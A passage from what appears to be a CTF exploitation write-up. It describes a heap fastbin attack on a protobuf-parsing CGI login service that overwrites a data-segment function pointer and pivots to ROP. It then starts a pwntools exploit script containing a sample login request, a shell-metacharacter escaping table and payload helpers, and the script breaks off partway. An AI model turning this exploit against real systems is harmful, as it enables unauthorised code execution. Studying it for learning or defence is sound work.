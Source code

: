 -   Malloc the first free chunk, overflow to the second free chunk through the vulnerability, and now we can do fastbin attack

[![](https://xzfile.aliyuncs.com/media/upload/picture/20240130151309-05afcbcc-bf3f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240130151309-05afcbcc-bf3f-1.png)

`fastbin attack`  can be constructed in the above way. After that, you can use  `fastbin attack`  to modify the function pointer of the data segment, jump to ROP and finally complete the exploit (PS: The interesting point here is that if there is no function pointer stored in the data segment by protobuf, when Full RELRO is turned on, this vulnerability cannot be exploited.)

The complete exploit script is as follows:
```python
#!/usr/bin/env python3
from pwn import *
context.arch = "amd64"
context.log_level = "debug"

# POST /cgi-bin/login.cgi HTTP/1.1
# Accept: application/json, */*
# Accept-Encoding: gzip, deflate
# Connection: keep-alive
# Content-Length: 171
# Content-Type: application/json
# Host: 192.168.64.135:8080
# User-Agent: HTTPie/1.0.3
# 
# {"data": "BICWCZDNNFXBEK3IOR2HA4Z2F4XXO53XFZ4W65LUOVRGKLTDN5WS653BORRWQP3WHUWVC4LQIV3E4MSYMQ4BQAQ", "timestamp": 61866, "data": "aaaa\u" aaaaaaaabaaaaaaacaaaaaaadaaaaaaa"}

blacklist_dict = {
    b"\b": b"\\b",
    b"\f": b"\\f",
    b"\n": b"\\n",
    b"\r": b"\\r",
    b"\t": b"\\t",

    b";": b"\\u003b",
    b"$": b"\\u0024",
    b"|": b"\\u007c",
    b"`": b"\\u0060",
    b"&": b"\\u0026",
    b"#": b"\\u0023",
    b"(": b"\\u0028",
    b")": b"\\u0029",

    b"\x00": b"\\u0000",
    # bash, flag, cat, tcp
}

def get_raw_payload(payload):
    # breakpoint()
    raw_payload = b""
    for i in payload:
        c = chr(i).encode("latin")
        if c in blacklist_dict:
            raw_payload += blacklist_dict[c]

        else:
            raw_payload += c

    return raw_payload

def calc_array_pair_cnt(required_size, message_len):
    align_up_0x10 = lambda x: (x + 0x0f) & ~0xf
```